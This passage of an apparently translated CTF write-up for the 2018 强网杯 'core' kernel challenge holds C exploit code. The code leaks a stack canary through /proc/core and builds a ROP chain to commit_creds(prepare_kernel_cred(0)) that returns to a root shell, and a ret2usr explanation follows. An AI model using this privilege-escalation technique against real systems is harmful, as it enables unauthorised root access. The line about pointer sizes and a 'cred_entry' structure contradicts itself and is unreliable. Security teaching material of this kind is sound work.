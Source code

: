 ```c
	size_t rop[0x100];
	char user_buf[0x40] = {0};
    int i;

	int fd = open("/proc/core", O_RDWR);
    if (!fd) {
        puts("[-] OPEN /proc/core ERROR.");
        exit(0);
    }
	ioctl(fd, CORE_OFF, 0x40);
    ioctl(fd, CORE_READ, user_buf);  //leak canary
	size_t canary = ((size_t *)user_buf)[0];
    printf("[+] Find canary: 0x%llx\n", canary);

    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
	rop[i++] = pop_rdi;
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred_addr;
	rop[i++] = pop_rdx;
	rop[i++] = commit_creds_addr;
	rop[i++] = mov_rdi;
	rop[i++] = swapgs;
	rop[i++] = 0;
	rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
	
	write(fd, rop, sizeof(rop));
	ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);
	return 0;
}
```

## ret2usr - 2018 强网杯 - core

The ret2usr attack leverages the fact that **userspace processes cannot access kernel space, but kernel space can access user space** to direct kernel code or data streams to user controls and execute user space code with the `ring 0` privilege to complete operations such as privilege escalation.

This vulnerability is consistent with the ROP, the difference is that here we construct `commit_creds(prepare_kernel_cred(0))` in user space through the function pointer for privilege escalation. Although the function is in kernel space, at this point we are in ring0 privilege and can execute normally. 

It is worth noting that here the function pointer can be constructed based on the function prototypes of **prepare_kernel_cred()** and **commit_creds()**. Although the return value of **prepare_kernel_cred()** and the argument of **commit_creds()** is a pointer to a `cred_entry` structure, its essence is still a pointer. So the return value and argument are essentially a memory address, and neither the char pointer nor the **cred_entry** structure pointer is eight bytes.
